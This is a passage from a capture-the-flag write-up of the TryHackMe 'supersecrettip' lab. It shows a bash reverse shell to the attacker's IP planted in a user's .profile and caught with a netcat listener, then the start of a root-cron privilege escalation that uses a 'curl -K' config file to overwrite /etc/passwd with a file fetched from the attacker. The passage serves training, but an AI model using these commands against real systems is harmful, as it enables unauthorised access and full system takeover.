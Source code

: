 ```
[REDACTED]@482cbf2305ae:/home/F30s$ echo "bash -i >& /dev/tcp/10.9.63.75/4443 0>&1" >> /home/F30s/.profile
<ev/tcp/10.9.63.75/4443 0>&1" >> /home/F30s/.profile
[REDACTED]@482cbf2305ae:/home/F30s$ tail .profile
tail .profile
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ] ; then
    PATH="$HOME/.local/bin:$PATH"
fi
PATH="/tmp/:$PATH"
bash -i >& /dev/tcp/10.9.63.75/4443 0>&1
```

Start another listener and wait for a minute:

```
┌──(kali㉿kali)-[~/TryHackMe/supersecrettip]
└─$ nc -lvnp 4443
listening on [any] 4443 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.17.241] 39630
bash: cannot set terminal process group (3563): Inappropriate ioctl for device
bash: no job control in this shell
F30s@482cbf2305ae:~$ id
id
uid=1001(F30s) gid=1001(F30s) groups=1001(F30s)
```

### Vertical Privilege Escalation

Look back to the crontab at this line:

```
*  *    * * *   root    curl -K /home/F30s/site_check
```

The `curl -K` option is used to specify a configuration file for `curl` to read command-line options and URLs from. This means the `site_check` is currently used as a configuration file which is executed by the `curl` command. Generally, if the content of `site_check` is:

```
url = http://example.com
```

And when the `curl -K /home/F30s/site_check` execute, it would equal to this command line:

```
curl -u "http://example.com"
```

So if I modify the `site_check` file to this:

```
url = "http://10.9.63.75:8000/passwd"
-o /etc/passwd
```
